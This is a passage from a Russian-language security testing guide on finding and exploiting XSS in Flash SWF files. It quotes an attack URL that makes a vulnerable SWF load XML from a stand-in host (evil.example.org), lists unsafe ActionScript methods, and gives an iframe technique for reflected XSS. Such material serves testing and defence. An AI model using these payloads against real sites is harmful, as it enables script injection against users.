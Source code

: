 ```actionscript
            }
            on_load();
        } else {}
        };
        if (_root.language != undefined) {
        Locale.DEFAULT_LANG = _root.language;
        }
        v5.load(Locale.DEFAULT_LANG + '/player_' +
                            Locale.DEFAULT_LANG + '.xml');
    };
```

Приведённый выше код может быть атакован запросом:

`http://victim/file.swf?language=http://evil.example.org/malicious.xml?`

### Небезопасные методы

Когда точка входа идентифицирована, данные, которые она представляет, могут быть использованы небезопасными методами. Если данные не будут отфильтрованы или валидированы, это может привести к некоторым уязвимостям.

Небезопасными, начиная с версии r47, являются следующие методы:

- `loadVariables()`
- `loadMovie()`
- `getURL()`
- `loadMovie()`
- `loadMovieNum()`
- `FScrollPane.loadScrollContent()`
- `LoadVars.load`
- `LoadVars.send`
- `XML.load( 'url' )`
- `LoadVars.load( 'url' )`
- `Sound.loadSound( 'url' , isStreaming );`
- `NetStream.play( 'url' );`
- `flash.external.ExternalInterface.call(_root.callback)`
- `htmlText`

### Эксплуатация отражённых XSS

Файл swf должен быть размещён на хосте жертвы, и должны использоваться методы отражённого XSS. Злоумышленник заставляет браузер загрузить чистый swf-файл прямо в адресной строке (с помощью перенаправления или социальной инженерии) или загрузив его через iframe со злонамеренной страницы:

```html
<iframe src='http://victim/path/to/file.swf'></iframe>
```

В этой ситуации браузер самостоятельно сгенерирует HTML-страницу, как если бы она была размещена на хосте жертвы.

### GetURL (AS2) / NavigateToURL (AS3)
